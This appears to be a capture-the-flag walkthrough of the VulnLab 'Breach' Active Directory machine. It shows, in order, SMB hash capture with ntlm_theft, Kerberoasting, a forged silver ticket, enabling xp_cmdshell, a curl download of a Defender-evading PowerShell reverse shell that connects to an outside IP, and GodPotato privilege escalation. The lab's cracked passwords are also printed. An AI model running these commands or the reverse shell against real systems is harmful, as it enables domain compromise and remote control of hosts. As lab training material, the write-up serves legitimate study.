VulnLab: Breach
Access as Julia.Wong
We have anonymous smb access

Users found in the users share
claire.pope
diana.pope
julia.wong
Upload ntlm theft files into the transfer directory to see if we get any hits
https://github.com/Greenwolf/ntlm_theft
recurse on;prompt off;mput *

We capture a hash for Julia.wong

Hash cracks to Computer1

Julia.Wong:Computer1
Access as svc_mssql
We have access to some new shares

Nothing interesting in the shares above so next step is grabbing bloodhound data.
bloodhound-python -u julia.wong -d breach.vl -c All -ns 10.10.102.46svc_mssql is kerberoastable

Get the hash
impacket-GetUserSPNs -dc-ip 10.10.102.46 breach.vl/julia.wong -request
Hash cracks to Trustno1

svc_mssql:Trustno1
Access to DB admin
We cant really do anything with this access.
I used a hint and we have to perform a silver ticket attack
How does this work?
When a TGS is presented to the MSSQL service, as long as it is encrypted with the NT hash of the svc_mssql user, it is trusted. Since we have the password for the user, we can easily calculate the NT hash, and forge a ticket, which will allow us to impersonate any user, even a domain admin, in the context of this service.
Domain admins should have admin privileges over the MSSQL database, so that should get us one step closer to owning this DC.
To generate the ticket:
impacket-ticketer -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn MSSQLSvc/breachdc.breach.vl:1433 Christine.BruceYou can get the domain-sid via impacket-lookupsid and the NT hash by using an online calculator with the clear-text password.

The ticket is saved
Now, we can authenticate to the MSSQL service as Christine, who is a DA:

The authentication works, and we are now an admin on the MSSQL
As we can see, we are now an administrator on the MSSQL server.
We can get a reverse shell by bypassing windows defender with this powershell script
$c = New-Object System.Net.Sockets.TCPClient('10.8.4.121',53);$s = $c.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex ". { $data } 2>&1" | Out-String ); $sb2 = $sb + '#';$seb = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($seb,0,$seb.Length);$s.Flush()};$c.Close()Use this one liner to enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami';Grab the file
xp_cmdshell curl http://10.8.5.199/defender_shell.ps1 -o C:\Temp\file.ps1Execute the file
xp_cmdshell powershell -file C:\Temp\file.ps1We get a reverse shell

And as usual we have SeImpersonate

Shell as system
We can use GodPotato and the same ps1 script from before
.\GodPotato-NET4.exe -cmd "powershell -file C:\temp\file.ps1"
